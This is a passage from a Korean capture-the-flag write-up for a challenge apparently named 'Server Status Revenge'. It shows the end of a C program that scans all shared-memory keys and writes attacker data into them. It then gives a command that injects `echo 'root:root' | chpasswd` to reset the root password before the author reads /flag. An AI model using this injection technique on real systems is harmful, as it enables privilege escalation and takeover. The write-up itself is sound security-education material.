 ```c
        return 1;
    }
    const char* data_to_write = argv[1];

    printf("프로그램 시작. 모든 키(0 ~ %u)를 주기적으로 스캔하여 데이터를 씁니다.\n", MAX_KEY);
    printf("종료하려면 Ctrl+C를 누르세요.\n");

    // 전체 스캔을 반복하는 무한 루프
    while (1) {


        // 0부터 0xFFFFF까지 모든 키를 순회합니다.
        for (key_t key = 1; key <= MAX_KEY; key++) {
            find_and_write(key, data_to_write);

        }

        printf("스캔 완료. %d초 후 다시 시작합니다.\n", SCAN_INTERVAL_SEC);
        sleep(SCAN_INTERVAL_SEC);
    }

    return 0;
}
```

`./a.out "echo 'root:root' | chpasswd" &` 이후 루트로 로그인하여 `/flag` 값을 읽었습니다.

## 작성자의 글

- `Server Status Revenge` 문제를 풀고 나니 플래그가 맞지 않아 운영진에게 문의했었습니다. 오류였다고 해서 수정했다고 하자마자 제출했는데 First Blood가 아니더라고요...
- 재미있었습니다.
